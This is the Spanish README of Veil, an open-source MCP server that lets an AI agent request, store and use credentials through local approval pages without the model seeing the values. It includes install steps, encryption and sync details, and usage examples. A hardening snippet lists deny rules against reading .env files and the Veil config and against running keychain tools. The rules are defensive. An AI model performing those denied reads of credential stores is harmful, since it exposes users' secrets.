






<div align="center">

[English](README.md) · **Español**


# Veil

**Que un agente de IA pida, guarde y use credenciales sin verlas jamás.**

[](https://github.com/asteby/veil/actions/workflows/ci.yml) [](LICENSE) [](package.json) [](https://modelcontextprotocol.io)

[Modelo de amenazas](THREAT-MODEL.md) · [Política de seguridad](SECURITY.md) · [Cambios](CHANGELOG.md)

</div>

**Veil** (`@asteby/veil`) es un servidor [MCP](https://modelcontextprotocol.io) de código abierto (stdio, TypeScript). El agente manda **solo metadatos** (el esquema de un formulario); tú escribes los valores en una página servida en `http://127.0.0.1`; van directo al destino que autorizaste. El agente recibe nombres y estados, nunca valores.

## Por qué

- **Un secreto pegado en el chat se queda en el chat.** Una vez en la conversación forma parte del contexto del modelo y de lo que guarde el cliente. Veil deja el valor en una página local, fuera de la conversación.
- **El agente necesita *usar* credenciales, no leerlas.** Escribe `${secret:NOMBRE}`; el servidor lo resuelve dentro de su propio proceso en el momento de usarlo, después de que apruebas la acción literal, y limpia la salida.
- **El trabajo real es más que una API key.** Listas de precios pegadas desde una hoja de cálculo, datos de clientes, llaves SSH para un servidor nuevo, un token que debe terminar en el `.env` de producción, un respaldo cifrado de todo, una llave que le pasas al agente de un compañero: todo con el mismo flujo y con auditoría.

**Sin Veil**

```text
Tú:     aquí está el token: APP_USR-4821-…-9f3c
Agente: ¡Gracias! Lo escribo en /etc/acme.env:
        MP_ACCESS_TOKEN=APP_USR-4821-…-9f3c

↳ el valor ya está en el contexto del modelo
  y en el historial de la conversación.
```

**Con Veil**

```text
Agente: secret_request({fields:[{name:"MP_ACCESS_TOKEN"}]})
        → se abre una página local; pegas ahí el token
Agente: ← {status:"completed", stored:["MP_ACCESS_TOKEN"]}
Agente: secret_write({name:"MP_ACCESS_TOKEN",
          target:{kind:"env-file", host:"prod-vps", …}})
        → apruebas la escritura exacta
Agente: ← {written:true, keys:[{key:"MP_ACCESS_TOKEN", action:"updated"}]}
```

## Cómo funciona


1. El modelo llama una herramienta solo con metadatos. Destinos, hosts, rutas, tablas y sitios deben estar en **tu** configuración (allowlist).
2. El enlace de un solo uso `http://127.0.0.1:<puerto>/p/<token de 256 bits>` te llega por **elicitation por URL de MCP** si el cliente la soporta (si no, se devuelve para que el cliente lo muestre, y se abre con `xdg-open`/`open` si `ui.openBrowser`). El primer navegador que lo abre lo amarra con una cookie HttpOnly; caduca en 10 min.
3. Llenas o apruebas. Token CSRF + verificación de Origin/Host + CSP estricta con nonce; nada de terceros; sin autocompletado.
4. Los valores van al destino desde este proceso (stdin/env, nunca argv; nunca en logs).
5. Las respuestas son estructurales; un filtro final elimina cualquier valor manejado y sus codificaciones.
6. Cada uso queda auditado (JSONL encadenado por hash). `veil verify-audit` verifica la cadena.

## Capacidades

| | Capacidad | Herramientas | Lo que recibe el modelo |
|---|---|---|---|
|  | **Formularios ciegos** — secretos, o esquemas ricos: secciones, número/moneda/fecha/select/multiselect/booleano/archivo, `showIf`, tablas repetibles con CSV o pegado desde hoja de cálculo, vista previa | `secret_request`, `blind_input`, `blind_input_preview`, `secret_wait` | `{stored:[nombres]}`, `{rows_written, ids}`, errores `{field, code}` |
|  | **Usar sin ver** — `exec` / `http` con `${secret:NOMBRE}`; la página de aprobación muestra la acción literal | `secret_use` | código de salida / estado HTTP + salida **redactada** |
|  | **Captura web** — una ventana de Chromium propia del servidor; tú inicias sesión y el valor va del DOM al almacén | `web_capture`, `web_login` | `{stored:[nombre]}` o `{failed_step, error_code}` — nunca texto de la página |
|  | **Llaves SSH** — generar, instalar con contraseña de un solo uso, probar acceso, ejecutar comandos | `ssh_key_provision`, `ssh_exec` | huellas, prueba de acceso, salida redactada |
|  | **Escribir donde se necesita** — `.env` (local o por SSH), JSON/YAML, systemd, secretos de GitHub Actions, portapapeles; sinks de formularios a SQL (Postgres), APIs HTTP, archivos | `secret_write`, sinks de `blind_input` | `{written, target, keys:[{key, action}]}` |
|  | **Almacenes** — llavero del sistema, almacén cifrado propio (contraseña maestra, sin instalar nada), archivo cifrado (AES-256-GCM), `.env`, archivo por SSH, Vault KV v2, Infisical, 1Password Connect, OPS | `secret_list`, `secret_delete`, `secret_rotate`, `local_unlock` | nombres + metadatos (creado, último uso, caducidad, rotación pendiente) |
|  | **Respaldo y sincronización cifrados** — bundle con cifrado de sobre a una carpeta, SSH, repo git privado, S3/R2, WebDAV o HTTP; anti-rollback, detección de conflictos, rotación de llave | `vault_export`, `vault_sync`, `vault_import`, `vault_rekey` | conteos y nombres |
|  | **Compartir por token** — secretos elegidos, caducidad, máximo de lecturas, passphrase opcional; el token solo se muestra en la página local | `share_create`, `share_list`, `share_revoke`, `share_import` | `{share_id, names, expires_at, max_views}` |
|  | **Archivos `.env` cifrados** — cifrado por valor apto para git; se usan en comandos y escrituras sin descifrarlos a disco | `env_status`, `env_unlock`, `env_encrypt`, `env_edit`, `env_diff`, `env_rotate` | nombres de claves, destinatarios, qué claves cambiaron |
|  | **Instalación sin configurar nada** — diagnóstico con el arreglo exacto por sistema/distribución, errores accionables en español e inglés | `doctor` | revisiones + comandos de arreglo (nunca secretos) |

## Cómo se ve

Capturas reales de las páginas locales, regeneradas con Playwright desde la UI de verdad (datos de ejemplo: “Acme Store”). Siguen el tema de tu GitHub.

<p align="center"></p>

<table>
<tr>
<td width="50%" valign="top"><b>Formulario de secreto</b><br>
<picture><source media="(prefers-color-scheme: dark)" srcset="docs/assets/shots/es/form-dark.webp"></picture></td>
<td width="50%" valign="top"><b>Tabla pegada desde una hoja de cálculo</b><br>
<picture><source media="(prefers-color-scheme: dark)" srcset="docs/assets/shots/es/table-dark.webp"></picture></td>
</tr>
<tr>
<td valign="top"><b>La aprobación muestra el comando literal</b><br>
<picture><source media="(prefers-color-scheme: dark)" srcset="docs/assets/shots/es/approval-dark.webp"></picture></td>
<td valign="top"><b>Confirmación de destino (upsert SQL, simulación)</b><br>
<picture><source media="(prefers-color-scheme: dark)" srcset="docs/assets/shots/es/destination-dark.webp"></picture></td>
</tr>
<tr>
<td colspan="2" align="center"><b>Móvil</b><br>
<picture><source media="(prefers-color-scheme: dark)" srcset="docs/assets/shots/es/mobile-dark.webp"></picture></td>
</tr>
</table>

## Instalación en Claude Code

Requisitos: Node ≥ 20.11 — nada más en ejecución (pnpm para compilar desde el código). Aún no está publicado en npm, así que se instala desde un clon:

```bash
git clone https://github.com/asteby/veil && cd veil
pnpm install && pnpm build
claude mcp add veil -- node "$PWD/dist/cli.js"
```

Luego pídele al agente algo que requiera una credencial (“configura el token del proveedor de pagos en producción”) y abrirá la página local. Cuando esté publicado: `claude mcp add veil -- npx -y @asteby/veil`.

> **Antes se llamaba `veilform`.** No hay que migrar nada a mano: el comando `veilform` queda como alias, las variables `VEILFORM_*` siguen funcionando (con aviso de obsolescencia; usa `VEIL_*`), se usa `~/.config/veilform` mientras no exista `~/.config/veil` (`veil doctor` muestra el `mv`), los secretos del servicio de llavero `veilform` y los archivos escritos antes (almacén cifrado, bundles, tokens de compartir, `.env` cifrados con `#/veilform-env v1` / `enc:v1:`) se siguen abriendo. Registra el servidor MCP con el nombre nuevo: `claude mcp remove veilform && claude mcp add veil -- node "$PWD/dist/cli.js"`. Detalle en el [CHANGELOG](CHANGELOG.md) (en inglés).

Se usa el llavero del sistema cuando funciona (Linux: `secret-tool` del paquete `libsecret-tools` + GNOME Keyring/KWallet; macOS: `security`); si no funciona, Veil usa su propio almacén cifrado y no hace falta instalar nada. Opcionales, solo para las funciones que los usan: `playwright-core` + Chromium (`web_capture`), `psql` (sinks SQL), `gh` (secretos de GitHub), OpenSSH, `git` (destinos de sincronización git). `veil doctor` dice exactamente qué falta y el comando para instalarlo.

## Primer uso

```bash
node dist/cli.js init      # cuando esté publicado: npx @asteby/veil init
```

`init` ejecuta el diagnóstico, muestra un plan y, cuando confirmas (`--yes` para no preguntar, `--dry-run` para solo verlo), aplica **solo cambios de tu usuario**: crea `~/.config/veil` (0700), corrige permisos y escribe un `config.json` cuyo destino por defecto **funciona sin instalar nada**:

- Llavero del sistema utilizable → `local` = llavero con `fallback: "auto"` (si el llavero falla después, los valores van al almacén cifrado de Veil).
- Llavero ausente, bloqueado o no soportado → `local` = almacén cifrado de Veil (`encrypted-file` con `key: {source: "master"}`, archivo `~/.config/veil/local-vault.json`).

Nunca ejecuta `sudo` ni pide secretos. Los comandos que necesitan privilegios (p. ej. `sudo apt install -y libsecret-tools`) se imprimen para que los copies. El `postinstall` opcional solo muestra una pista; con `VEIL_POSTINSTALL=init` ejecuta `init --dry-run` al instalar.

**El almacén cifrado** es un solo archivo en el formato `encrypted-file` existente: AES-256-GCM por valor (el nombre va como AAD), llave derivada con argon2id (Node ≥ 24.7; si no, scrypt N=2^17) de una **contraseña maestra**:

1. La primera vez que un valor tiene que ir ahí, la página local (127.0.0.1) te pide **definir la contraseña maestra ahí mismo** — nunca en el chat, en argumentos MCP ni en argv. También puedes hacerlo antes: `veil unlock`, `veil init --master` o la herramienta MCP `local_unlock`.
2. Al desbloquear solo se guarda en memoria la **llave derivada**: en el agente de sesión (`veil agent`) si está activo — entonces todos los procesos de Veil la comparten y `veil lock` la olvida — o dentro del proceso MCP durante `localVault.unlockMinutes` (15 por defecto).
3. Más adelante, cuando el llavero funcione, puedes guardar ahí la llave derivada para abrir el almacén sin escribir la contraseña: `veil unlock --save-keychain` (`--forget-keychain` lo deshace). `veil unlock --change-password` vuelve a cifrar todo con otra contraseña.
4. Nunca se escribe texto plano en disco; los valores y la contraseña maestra se registran en la lista de borrado antes que nada y nunca llegan a respuestas, logs ni a la auditoría.

> **Si olvidas la contraseña maestra los datos no se pueden recuperar** — es intencional, no hay puerta trasera. Guárdala en tu gestor de contraseñas o en papel y respalda `local-vault.json` (sin la contraseña no sirve de nada). Para una copia cifrada fuera de la máquina usa `veil export` / `vault_sync`.

Si el destino por defecto es el llavero y falla durante un `secret_request`, la página **ofrece continuar con el almacén cifrado** (pidiendo — o creando — la contraseña maestra en esa misma página) en vez de fallar, y muestra el comando exacto para arreglar el llavero de forma permanente. Pon `fallback: "never"` en un destino `keychain` para prohibirlo.

<details>
<summary><b>Configuración, variables de entorno y endurecimiento</b></summary>

- La configuración es una **allowlist**: copia [`examples/config.example.json`](examples/config.example.json) a `~/.config/veil/config.json` (o deja que `init` escriba una mínima) y deja solo lo necesario. Sin archivo hay un único destino, `local` (llavero del SO con `fallback: "ask"`: si el llavero falla, la página ofrece el almacén cifrado). Verifícala con `veil check-config` y `veil doctor`.
- Variables: `VEIL_HOME` (por defecto `~/.config/veil`), `VEIL_CONFIG`, `VEIL_AGENT` (etiqueta que se escribe en la auditoría), `VEIL_KEY_FILE` (archivo de llave para `.env` cifrados), `VEIL_POSTINSTALL`.
- Endurecimiento recomendado en Claude Code (`.claude/settings.json`): niega a las herramientas propias del agente lo que este servidor protege, p. ej. `"deny": ["Read(~/.config/veil/**)", "Bash(secret-tool:*)", "Bash(security:*)", "Read(**/.env)"]`.

</details>

## Solución de problemas

Ejecuta `veil doctor` (o la herramienta MCP de solo lectura `doctor`; `--json` para máquinas). Revisa Node/cripto (argon2id), el backend de llavero (secret-tool, sesión D-Bus, proveedor de Secret Service y si el llavero por defecto está desbloqueado en Linux; `security` en macOS; en Windows el backend de Credential Manager está previsto y se usa el almacén cifrado), el destino por defecto, el almacén cifrado y el agente de sesión, los permisos de `~/.config/veil`, y ssh/git/gh/psql/Chromium para las funciones que los usan. Cada problema trae su impacto y el comando exacto para tu distribución (apt, dnf, pacman, zypper, apk, brew, winget). No ejecuta nada con privilegios ni pide nada secreto.

Los errores son estructurados — `{error, code, help:{en,es}, fix:{en,es,command, alternative}}` — en las respuestas MCP, y traducidos en la página local:

| Código | Qué pasa | Arreglo |
|---|---|---|
| `keychain_unavailable` | `secret-tool` no instalado (`reason: missing_tool`), sin sesión D-Bus (`no_dbus`, SSH/sin escritorio) o sin Secret Service (`no_service`) | `sudo apt install -y libsecret-tools` (o dnf/pacman/…), `dbus-run-session -- $SHELL`, `gnome-keyring-daemon --start --components=secrets` — o `veil init` |
| `keychain_locked` | el llavero está bloqueado o esperando un diálogo de desbloqueo | desbloquea "Inicio de sesión" en Contraseñas y claves (`seahorse`); macOS: `security unlock-keychain` |
| `keychain_unsupported` | aún no hay backend de llavero en este SO (Windows) | `veil init` (almacén cifrado) |
| `passphrase_required` | el almacén cifrado está bloqueado | MCP `local_unlock` o `veil unlock` |
| `master_password_not_set` | el almacén cifrado aún no tiene contraseña maestra | defínela en la página local (`veil unlock`) |
| `destination_not_configured` | el destino no está en `config.json` | `veil init` o agrégalo |
| `wrong_key` / `too_many_attempts` | contraseña maestra incorrecta / bloqueo temporal tras 5 fallos | reintenta más tarde |

## Sincronización, compartir y `.env` cifrados

Todas las respuestas son nombres, conteos e ids; las passphrases y los tokens se escriben o se muestran en la página local.

**Bundle** (`manifest.json` + `o/<id aleatorio>` por secreto, o un solo `.vfb`): una llave de datos (DEK) AES-256-GCM aleatoria por secreto, envuelta por una KEK = HKDF(argon2id/scrypt(passphrase) ‖ archivo de llave / llavero opcional). Nombres y metadatos viven solo en el índice cifrado; la cabecera (versión, id del bundle, `seq` monótono, parámetros de llave, sha256 de cada objeto) es el AAD del índice: bundles con objetos intercambiados, truncados, editados o antiguos (rollback) se rechazan. Cada secreto lleva un reloj vectorial: `vault_sync` nunca sobrescribe en silencio un cambio concurrente (`strategy`: `report`, `keep-local`, `take-remote`, `keep-both`). CLI: `veil export|import|sync|rekey`.

**Destinos** (`sync.targets` en la config, allowlist): `dir`, `ssh` (host de `ssh.hosts`), `git` (repo privado; `git` por argv, credenciales de tu ssh-agent/credential helper), `s3` (S3/R2/MinIO, SigV4 propio), `webdav`, `http`. Las credenciales de los destinos son referencias al almacén local (`tokenRef`, `accessKeyRef`…), nunca en línea.

```json
"sync": {
  "targets": { "r2": { "type": "s3", "endpoint": "https://<cuenta>.r2.cloudflarestorage.com", "bucket": "vault", "accessKeyRef": "R2_ID", "secretKeyRef": "R2_SECRET" },
               "repo": { "type": "git", "url": "git@github.com:yo/vault-backup.git" } },
  "secondFactor": { "type": "key-file", "path": "~/.config/veil/sync.key" },
  "shareTarget": "r2"
}
```

**Token de compartir** = `vfs1://<destino>/<share_id>#<llave>` — la llave va en el fragmento de la URL (nunca se envía a un servidor). Con `require_passphrase` el bundle se cifra con HKDF(llave ‖ argon2id(passphrase)); la caducidad y el máximo de lecturas van en la cabecera autenticada. Una persona lo abre con `veil share open` (página local, token en el fragmento o pegado, valores ocultos de nuevo a los N s); otro agente usa `share_import({token_file})` y después `secret_use`.

**`.env` cifrado** (cabecera `#/veil-env v1`, `CLAVE="veil:1:…"` por valor, comentarios/orden conservados, MAC de todo el archivo, N destinatarios). `secret_use({env_file})` y `secret_write({from:{kind:"env-enc"}})` los usan sin que el modelo vea valores:

```bash
veil env keygen ~/.config/veil/keys/miapp.key                 # 0600, fuera del repo
veil env encrypt .env.production --key-file ~/.config/veil/keys/miapp.key  # + passphrase por TTY
veil env hook install                                         # el pre-commit rechaza .env en claro
veil run --env .env.production -- node server.js              # valores solo en el entorno del hijo; salida redactada
veil env unlock .env.production --status                      # qué métodos de desbloqueo sirven aquí (sin valores)
veil env share .env.production --expires 1h --max-views 1     # token que desbloquea SOLO este archivo
```

Métodos de desbloqueo: archivo de llave (`--key-file`, `VEIL_KEY_FILE`, `env.keyFiles`), llavero del SO (`env.keychain`), credencial de systemd (`LoadCredential=veil-key:…`, ver [`examples/systemd/`](examples/systemd/)), agente de sesión (`veil agent`, `veil lock`), passphrase (TTY o página local, intentos limitados), token de compartir. Límites y comparación con age/sops/1Password/Vault: [THREAT-MODEL.md §8](THREAT-MODEL.md#8-sync-sharing-and-encrypted-env-files) (en inglés).

## Ejemplos

**Llave de Stripe y una llamada:** `secret_request({title:"Stripe", fields:[{name:"STRIPE_KEY", label:"Llave secreta"}]})` → la pegas en la página local → `secret_use({action:"http", url:"https://api.stripe.com/v1/balance", headers:{Authorization:"Bearer ${secret:STRIPE_KEY}"}})` → la página de aprobación muestra exactamente esa petición → `{http_status:200, body:"…"}` (si la API repite la llave, sale como `[REDACTED:STRIPE_KEY]`).

**Token al `.env` de producción por SSH:** `secret_write({name:"MP_ACCESS_TOKEN", target:{kind:"env-file", host:"prod-vps", path:"/etc/myapp/myapp.env", key:"MP_ACCESS_TOKEN"}, dry_run:true})` → `{changes:[{key:"MP_ACCESS_TOKEN", action:"updated"}]}`. Sin `dry_run`, tras tu aprobación, cambia solo esa clave conservando comentarios y el resto, sube el archivo por stdin a un temporal, `chmod 0600`, `chown`/respaldo opcionales y `mv` atómico.

**Sacar un token de un panel web sin que el modelo lo vea:** `web_capture({site:"mercadopago", name:"MP_ACCESS_TOKEN", steps:[…], extract:{selector:"[data-testid=access-token]", regex:"(APP_USR-[\\w-]+)"}})`. Se abre una ventana de Chromium **propia del servidor**; **tú** inicias sesión (contraseña y 2FA nunca pasan por el modelo); puedes ajustar los pasos en la página de aprobación; el valor va del DOM al almacén.

**Llave SSH para un VPS nuevo:** `ssh_key_provision({host:"prod-vps", alias:"deploy_key", password:true})` → la página muestra la huella del host para compararla con tu proveedor, pide la contraseña de un solo uso, instala la llave pública y prueba el acceso. Luego `ssh_exec({host:"prod-vps", command:"systemctl restart myapp"})`.

**Precios USD en lote a Postgres:** `blind_input` con una tabla `rows:[sku, price(money USD)]` y sink `{type:"sql", database:"appdb", table:"public.product_prices", mode:"upsert", rows:"rows", columns:{…}, dry_run:true}`. Pegas las filas desde Excel/Sheets; los valores viajan como datos de `COPY … FROM STDIN` a una tabla temporal tipada y un `INSERT … SELECT` en una sola transacción (nunca como texto SQL).

**Datos sensibles de clientes:** `blind_input` con `nombre, email, rfc (pattern), teléfono` y sink `http` a tu CRM; el modelo solo recibe los ids creados.

**Respaldar y pasar una llave:** `vault_sync({target:"r2"})` → escribes la passphrase del respaldo en la página local → `{target:"r2", pushed:{seq:7, count:12}}`. Luego `share_create({names:["STRIPE_KEY"], expires_in:"1h", max_views:1})` → el token aparece solo en tu página; el agente de tu compañero ejecuta `share_import({token_file})` y la usa con `secret_use`.

## Seguridad

**Qué protege**

- Los valores nunca entran al contexto del modelo: las respuestas son estructurales (nombres, estados, conteos, ids, códigos de error) y un filtro final elimina cualquier valor manejado y sus codificaciones comunes. Pruebas de propiedades verifican que ni las respuestas, ni el JSON-RPC, ni la auditoría, ni stderr contengan el valor.
- Los valores nunca van en argv de los procesos que se lanzan (se usan stdin, env y FIFOs) ni en logs.
